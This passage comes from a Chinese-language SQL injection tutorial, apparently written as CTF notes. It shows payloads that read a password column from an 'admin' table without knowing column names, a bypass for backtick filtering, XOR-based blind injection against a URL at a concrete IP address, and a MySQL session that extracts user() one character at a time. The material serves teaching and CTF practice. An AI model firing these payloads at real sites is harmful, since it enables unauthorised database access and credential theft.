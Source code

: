 ![](https://img.npfs06.top/20210306102157.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

如图，我们的列名被替换为了对应的数字。也就是说，我们可以继续数字来对应列，如 3 对应了表里面的 password：

```text
select `3` from (select 1,2,3 union select * from admin)a;
```

![](https://img.npfs06.top/20210306102212.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

> 末尾的 a 可以是任意字符，用于命名。

当然，多数情况下，` 会被过滤。当 ` 不能使用的时候，使用别名来代替：

```text
select b from (select 1,2,3 as b union select * from admin)a;
```

![](https://img.npfs06.top/20210306102228.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

同时查询多个列：

```text
select concat(`2`,0x2d,`3`) from (select 1,2,3 union select * from admin)a limit 1,3;
```

![](https://img.npfs06.top/20210306102245.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

简而言之，可以通过任意命名进入该表，然后使用 SELECT 查询这些字段中的任何已知值。



# 异或注入

> 两个同为真（假）的条件做异或，结果为假
> 一个条件为真，一个条件为假，结果为真

```
^ 运算符会做 位异或运算
1^2 = 3
1^3 = 2
2^3 = 1
1^0 = 1
```



`xor`做逻辑运算 1 xor 0 会输出1 其他情况输出其他所有数据  用法:

```
可用于判断过滤
http://120.24.86.145:9004/1ndex.php?id=1'^(length('union')!=0)--+
如果返回页面显示正常，那就证明length(‘union’)==0的，也就是union被过滤了
```


```
mysql> select * from ctf_test where user='2'^(mid(user(),1,1)='s')^1;
Empty set (0.00 sec)
mysql> select * from ctf_test where user='2'^(mid(user(),1,1)='r')^1;
+------+---------+
| user | pwd     |
+------+---------+
| 2    | flag    |
+------+---------+
1 row in set (0.00 sec)
```
